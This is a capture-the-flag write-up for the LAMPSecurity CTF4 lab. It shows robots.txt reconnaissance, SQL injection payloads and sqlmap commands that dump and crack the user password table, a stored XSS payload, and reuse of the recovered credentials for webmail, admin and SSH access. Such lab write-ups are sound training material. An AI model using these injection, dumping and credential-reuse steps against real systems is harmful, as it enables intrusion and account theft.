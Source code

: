+++
title = "LAMP CTF4"
date = 2017-09-20
[image]
link = "/images/posts/lamp_ctf4/presentation.jpg"
copyright = "https://unsplash.com/@felexelix"
+++

> Source: https://www.vulnhub.com/entry/lampsecurity-ctf4,83/

This LAMP challenge is most likely to be focused around casual Linux-Apache-MySQL-PHP vulnerabilities. Let's check the `robots.txt` file first:

```
User-agent: *
Disallow: /mail/
Disallow: /restricted/
Disallow: /conf/
Disallow: /sql/
Disallow: /admin/
```

## /mail/

Looks like a webmail service, we can't login for now, moving on.

## /restricted/

There's another service here, protected by a `.htaccess` file login, but we don't have any access, moving on.

## /conf/

This page crashes with a 500 error that gives two interesting pieces of information:

- The system is Fedora and is using `Apache/2.2.0`
- `dstevens@localhost` is the system admin of the website.

## /sql/

Following the link to the `db.sql` file, it looks like the database init script, to create tables inside the database `ehks`.

```sql
use ehks;
create table user (user_id int not null auto_increment primary key, user_name varchar(20) not null, user_pass varchar(32) not null);
create table blog (blog_id int primary key not null auto_increment, blog_title varchar(255), blog_body text, blog_date datetime not null);
create table comment (comment_id int not null auto_increment primary key, comment_title varchar (50), comment_body text, comment_author varchar(50), comment_url varchar(50), comment_date datetime not null);
```

## /admin/

This is a login page to what seems to be the admin section of the website, we don't have any access, moving on.

# Blog

We can find quite easily that the `id` parameter on the blog page is subject to SQL injections:

```
http://hostname/index.html?page=blog&title=Blog&id=2 or 1=1
```

Let's spin up `sqlmap` to verify that:

```shell
$ sqlmap --url=http://hostname/index.html\?page\=blog\&title\=Blog\&id\=2
...
[14:29:44] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
...
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=blog&title=Blog&id=2 AND 4573=4573

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: page=blog&title=Blog&id=2 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: page=blog&title=Blog&id=2 UNION ALL SELECT NULL,CONCAT(0x7176766a71,0x5977754a5070696d674d496c6b5054584d4655575261757651686750576e58664e7475695866544f,0x716b706271),NULL,NULL,NULL-- aReR
---
[14:29:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 5.0.12
```

This confirms the vulnerability of the `id` parameter and also that we have the LAMP setup as expected.

Let's explore the database now, starting with the tables and columns in the database `ehks` (the one we found earlier):

```shell
$ sqlmap --url=http://hostname/index.html\?page\=blog\&title\=Blog\&id\=2 --dbms=MySQL -p id --columns -D ehks
...
Database: ehks
Table: blog
[5 columns]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| blog_body  | text         |
| blog_date  | datetime     |
| blog_id    | int(11)      |
| blog_title | varchar(255) |
| user_id    | int(11)      |
+------------+--------------+

Database: ehks
Table: comment
[6 columns]
+----------------+-------------+
| Column         | Type        |
+----------------+-------------+
| comment_author | varchar(50) |
| comment_body   | text        |
| comment_date   | datetime    |
| comment_id     | int(11)     |
| comment_title  | varchar(50) |
| comment_url    | varchar(50) |
+----------------+-------------+

Database: ehks
Table: user
[3 columns]
+-----------+-------------+
| Column    | Type        |
+-----------+-------------+
| user_id   | int(11)     |
| user_name | varchar(20) |
| user_pass | varchar(32) |
+-----------+-------------+
```

Sweet! now let's dump the user info and try to crack the passwords:

```shell
$ sqlmap --url=http://hostname/index.html\?page\=blog\&title\=Blog\&id\=2 --dbms=MySQL -p id -D ehks -T user --dump
...
[14:48:02] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
do you want to crack them via a dictionary-based attack? [Y/n/q] y
what dictionary do you want to use?
[1] default dictionary file '/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
do you want to use common password suffixes? (slow!) [y/N] n
...
Database: ehks
Table: user
[6 entries]
+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | e0a23947029316880c29e8533d8662a3 (convertible)   |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+
```

Remember the `500` error previously? It mentioned the user `dstevens`, and we now have his password, great! 

We can go back to the previous services we found:

# /mail/ round 2

Using the `dstevens`/`ilike2surf` combination works. We can see a lot of security-related emails, mentioning the `sqlmap` execution we just did (not very stealthy!):

```
OSSEC HIDS Notification.
2017 Sep 19 14:29:26

Received From: ctf->/var/log/httpd/access_log
Rule: 31106 fired (level 12) -> "A web attack returned code 200 (success)."
Portion of the log(s):

XX.XX.XX.XX - - [19/Sep/2017:14:29:26 -0400] "GET
/index.html?page=blog&title=Blog%25%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%23&id=2
HTTP/1.1" 200 2982 "-" "sqlmap/1.0.9.32#dev (http://sqlmap.org)"

--END OF NOTIFICATION
```

# /admin/ round 2

The same login works here, it's the backend to the blog part of the website. We can create new blog posts with a title and a body. Nothing more to say apart from the fact that the fields won't protect against possible XSS. Posting 

```html
<script> alert(1) </script>
```

will lead to the script being executed.

# SSH

`dstevens` is most likely the admin of the machine, let's try to connect to the box, using SSH, with the same login found on the db:

```shell
$ ssh dstevens@hostname
dstevens@hostname's password:
Last login: Mon Mar  9 07:48:18 2009 from 192.168.0.50
[dstevens@ctf ~]$ cat /passwd
cat: /passwd: Permission denied
[dstevens@ctf ~]$ sudo cat /passwd
Password:
21fd958ecb671ca15bd7547077910147
```

Neat, it worked!
